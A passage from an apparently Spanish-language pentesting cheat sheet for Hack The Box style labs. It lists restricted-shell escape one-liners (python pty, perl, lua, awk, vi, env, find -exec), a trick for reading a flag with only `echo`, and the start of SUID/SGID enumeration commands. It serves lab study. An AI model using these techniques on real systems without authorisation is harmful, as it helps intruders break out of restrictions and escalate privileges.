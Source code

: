 	# Ejecuta la función
	mycmd
	# Sobrescribe `ls` para que abra bash
	ls() { /bin/bash; }
	# Ejecuta bash en lugar de ls
	ls
	```
- Spawnear shell desde distintos lenguajes
	```bash
	# Con python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	# Con perl
	perl -e 'exec "/bin/bash";'
	# Con lua
	lua -e 'os.execute("/bin/bash")'
	```
- Otras ideas para escapar
	```bash
	awk 'BEGIN {system("/bin/bash")}'
	vi :!bash
	env /bin/bash
	find . -exec bash \;
	```
- Ejemplo para leer una flag cuando solo podemos utilizar `echo`
	```bash
	# Mostrar el contenido de una carpeta
	echo /home/htb-admin/*
	# Muestra una flag, que podemos leer del siguiente modo:
	 while read line; do echo "$line"; done < flag.txt
	```
## Permisos especiales
### SUID y GUID
- Permisos SUID y GUID
	```bash
	# SETUID
	find / -perm -u=s -type f 2>/dev/null
	find / -perm -4000 -type f 2>/dev/null
	# Con más detalles y solo propiedad de root
	find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
	# SETGID
	find / -perm -g=s -type f 2>/dev/null
	find / -perm -2000 -type f 2>/dev/null